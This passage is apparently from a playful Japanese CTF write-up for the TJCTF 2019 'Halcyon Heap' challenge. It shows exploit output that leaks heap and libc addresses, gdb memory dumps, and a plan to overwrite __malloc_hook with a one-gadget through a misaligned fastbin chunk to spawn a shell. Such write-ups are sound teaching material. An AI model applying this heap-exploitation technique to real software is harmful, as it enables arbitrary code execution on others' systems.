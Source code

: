 確認のため、今までの魔術を試してみましょう！\\(ﾟ∀ﾟﾍ)ｱﾌﾞﾗｶﾀﾞﾌﾞﾗ
```
$ ./exploit.py 
[*] '/ctf/TJCTF2019/Binary/Halcyon_Heap/halcyon_heap'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/ctf/TJCTF2019/Binary/Halcyon_Heap/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process '/ctf/TJCTF2019/Binary/Halcyon_Heap/halcyon_heap': pid 7655
00000000  00 30 f8 02  c9 55 00 00  00 00 00 00  00 00 00 00  │·0··│·U··│····│····│
00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000020
[*] ヒープ先頭アドレス = 0x55c902f83000
00000000  78 3b 9c d8  db 7f 00 00  78 3b 9c d8  db 7f 00 00  │x;··│····│x;··│····│
00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 00 00 00  │····│····│····│····│
00000020
[*] LIBC先頭アドレス = 0x7fdbd85ff000
[*] Stopped process '/ctf/TJCTF2019/Binary/Halcyon_Heap/halcyon_heap' (pid 7655)
$ 
```
わ〜ぃ！行けた！LIBCのアドレスをうまく掴めました〜！٩(๑´0`๑)۶

最後に、シェルをスポーンすることです！単に`__malloc_hook`にone-gadgetのアドレスを書き込めばいいでしょう。
但し、前と同じく、fastchunkに合ってるサイズを使わないとバツなので気をつけましょう。

```
gef➤  x/6gx 0x7f0a4cd34b10-0x10
0x7f0a4cd34b00 <__memalign_hook>:       0x00007f0a4c9f5e20      0x00007f0a4c9f5a00                                           
0x7f0a4cd34b10 <__malloc_hook>:         0x0000000000000000      0x0000000000000000                                                                             
0x7f0a4cd34b20:                         0x0000000000000000      0x0000000000000000
```

ｳﾌﾌ~　ありましたね。

```
0x7f0a4cd34afd:                         0x0a4c9f5e20000000      0x0a4c9f5a0000007f
0x7f0a4cd34b0d <__realloc_hook+5>:      0x000000000000007f      0x0000000000000000                                
0x7f0a4cd34b1d:                         0x0000000000000000      0x0000000000000000
```

というわけで `((long) &__malloc_hook) - 0x13` を指せば `malloc` を変更できるはずです。では早速、

# いただきます！
